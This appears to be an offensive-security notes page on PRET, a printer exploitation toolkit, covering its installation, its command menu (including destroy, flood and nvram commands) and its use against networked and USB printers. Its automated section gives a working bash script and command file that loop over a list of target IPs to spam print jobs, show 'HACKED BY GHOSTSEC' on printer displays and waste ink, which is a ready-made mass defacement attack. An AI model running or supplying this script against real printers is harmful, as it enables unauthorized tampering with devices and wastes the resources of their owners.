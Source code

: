 # PRET

## 01 - Setup

### 1.1 - Dependencies

```
$ sudo apt install -y python3-colorama python3-pysnmp4 imagemagick ghostscript
```

### 1.2 - Install PRET

```
$ git clone https://github.com/RUB-NDS/PRET
```

## 02 - Help Menu

```
$ ./pret.py <printer_target_IP> pjl

<printer_target_IP>:/> help

Available commands (type help <topic>):
=======================================
append  delete    edit    free  info    mkdir      printenv  set        unlock
cat     destroy   env     fuzz  load    nvram      put       site       version
cd      df        exit    get   lock    offline    pwd       status
chvol   disable   find    help  loop    open       reset     timeout
close   discover  flood   hold  ls      pagecount  restart   touch
debug   display   format  id    mirror  print      selftest  traversal
```

## 03 - Usage

In this case we are connecting to the printer that is a PostScript printer language.

```
$ ./pret.py <IP> ps
```

Lastly you can connect to local USB printers.

```
$ ./pret.py /dev/usb/lp0 pjl
```

### 3.1 - Automated

A short script to keep spamming by printing files to waste the inks.

```bash
#!/bin/bash

ips="${1}"
filename="${2}"

while read -r line
do
    ip="${line}"
    ./pret.py ${ip} pjl -q -i "${filename}"
done < "${ips}"
```

```
$ cat > pret_commands.txt << EOF
print ./message-by-ghostsec.txt
display "HACKED BY GHOSTSEC"
quit
EOF

$ chmod +x spam_print.sh

$ ./spam_print.sh ip_targets.txt pret_commands.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Internet of Things/Printers|Active Fingerprinting: Printers]]

### Github

- [PRET](https://github.com/RUB-NDS/PRET)